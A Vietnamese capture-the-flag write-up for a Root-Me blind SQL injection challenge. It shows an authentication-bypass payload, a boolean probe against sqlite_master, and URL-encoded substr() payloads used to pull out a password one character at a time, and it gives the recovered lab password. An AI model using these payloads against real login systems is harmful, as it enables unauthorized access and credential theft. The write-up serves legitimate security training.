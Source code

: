 # WRITE UP

**Challenge: [SQL Injection - Blind](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-blind)**

Thử fuzz với payload **admin’-- -** ta đã access thành công qua Authentication v 0.02. Tuy vậy, website chẳng trả về cho thông tin password gì cả:

<img src="./media/image1.png" style="width:6.5in;height:2.46458in" alt="Graphical user interface, application Description automatically generated" />

Mở burpsuite và tìm kiếm thôi. Thử thay đổi payload bằng cách sử dụng union select thì phát hiện ra website đã filter các keyword chông SQL Injection với thông báo **“Injection detected”**:

<img src="./media/image2.png" style="width:6.5in;height:2.46667in" />

Với blind injection, ta thực hiện mò thử với các cấu trúc mà server database hay tạo, fuzz thôi:

<img src="./media/image3.png" style="width:6.5in;height:2.65694in" alt="Graphical user interface, text, website Description automatically generated" />

Với payload:

*username=admin%27+AND+(select+username+from+sqlite\_master)='admin'--+-&password=admin%27--+-*

Server trả về là TRUE fuzz tìm password bằng substr() thôi!

1.  **Tìm length(password):**

<img src="./media/image4.png" style="width:6.5in;height:3.17639in" alt="Graphical user interface, application Description automatically generated" />

-   Length(password) == 8

1.  **Tìm password:**

Payload để fuzz:

*username=admin%27+AND+substr((select+password+from+sqlite\_master),1,1)='a'--+-&password=admin%27--+-*

<img src="./media/image5.png" style="width:6.5in;height:4.19097in" alt="Table Description automatically generated with medium confidence" />

Sau một khoảng thời gian, ta đã ghép được password: **e2azO93i**

<img src="./media/image6.png" style="width:6.5in;height:3.90347in" alt="A picture containing text, screenshot, monitor, computer Description automatically generated" />

- Flag: "****************************"
